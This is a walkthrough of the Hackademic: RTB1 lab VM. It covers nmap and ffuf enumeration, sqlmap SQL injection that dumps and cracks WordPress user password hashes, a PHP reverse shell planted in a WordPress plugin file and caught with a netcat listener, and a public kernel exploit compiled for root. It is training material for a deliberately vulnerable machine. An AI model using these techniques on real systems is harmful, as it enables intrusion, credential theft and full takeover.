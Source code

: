 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```


Visit the main page and click on `target` link and you will be redirected to `http://192.168.127.140/Hackademic_RTB1/`

let's fuzz this path :

```bash
root@kali: ffuf -w ~/wordlist/raft-large-directories.txt  -u http://192.168.127.140/Hackademic_RTB1/FUZZ/

[Status: 200, Size: 1160, Words: 64, Lines: 16, Duration: 11ms]
    * FUZZ: wp-content

[Status: 200, Size: 6523, Words: 301, Lines: 41, Duration: 13ms]
    * FUZZ: wp-includes

[Status: 200, Size: 2010, Words: 98, Lines: 20, Duration: 10ms]
    * FUZZ: wp-images

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 693ms]
    * FUZZ: wp-admin

[Status: 500, Size: 1881, Words: 127, Lines: 44, Duration: 681ms]
    * FUZZ:
```

we have found `wp-admin` directory and we find that it is like a wordpress CMS








back to main page, if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`





this paramter is vulnerable to sql injection if you put a `"` after it :












i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

interesting table would be `wp_users` so let's get information from it :

- Get columns of `wp_users` table :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users --columns

Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+
```

interesting columns would be `user_login`, `user_pass`, `user_level`, `user_email`, let's get those infos :

- Get data from the desired columns :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users -C user_login,user_pass,user_level,user_email --dump

Database: wordpress                                                                                                                                             
Table: wp_users
[6 entries]
+--------------+---------------------------------------------+------------+-------------------------+
| user_login   | user_pass                                   | user_level | user_email              |
+--------------+---------------------------------------------+------------+-------------------------+
| NickJames    | 21232f297a57a5a743894a0e4a801fc3 (admin)    | 1          | NickJames@hacked.com    |
| MaxBucky     | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   | 0          | MaxBucky@hacked.com     |
| GeorgeMiller | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   | 10         | GeorgeMiller@hacked.com |
| JasonKonnors | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  | 0          | JasonKonnors@hacked.com |
| TonyBlack    | a6e514f9486b83cb53d8d932f9a04292 (napoleon) | 0          | TonyBlack@hacked.com    |
| JohnSmith    | b986448f0bb9e5e124ca91d3d650f52c            | 0          | JohnSmith@hacked        |
+--------------+---------------------------------------------+------------+-------------------------+
```

as we see here sqlmap has cracked some of the hashes and according to `user_level` user `GeorgeMiller` has the highest level of `10`

we use this user with credentials `GeorgeMiller:q1w2e3` to login to `/wp-admin` directory.


img:adminpage


## 3.Gaining Shell 

After checking various parts of the CMS i found that in `Manage` menu and in `Files` submenu we can edit a `hello.php` file.

i just paste a php reverse shell (pentestmonkey) payload and updated the file.

run a listener on you kali machine and navigate to `wp-content/plugins/hello.php`

```bash
root@kali: nv -nvlp 4444
          
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.140] 35822
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 07:05:40 up  2:12,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
sh-4.0$ id
id
uid=48(apache) gid=489(apache) groups=489(apache)
sh-4.0$
```

now we are on the victim machine, after checking various PE vectors i came to nothing but checking the kernel version 

showed that this version is vulnerable :

```bash
sh-4.0$ uname -a

Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
```

just check the searchsploit for any public exploit for this version (you need to check a lot of exploit to find the appropriate one)

i just came to this exploit that worked for me

```bash
root@kali: searchsploit linux 2.6 -w | grep 1528
Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation                                                 | https://www.exploit-db.com/exploits/15285
```

upload it on the victim and compile it :

```bash
bash-4.0$ cd /tmp
bash-4.0$ gcc 15285.c 
bash-4.0$ ./a.out 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
sh-4.0# id
uid=0(root) gid=0(root)
sh-4.0# 
```

yes, this is how we can root this machine :)













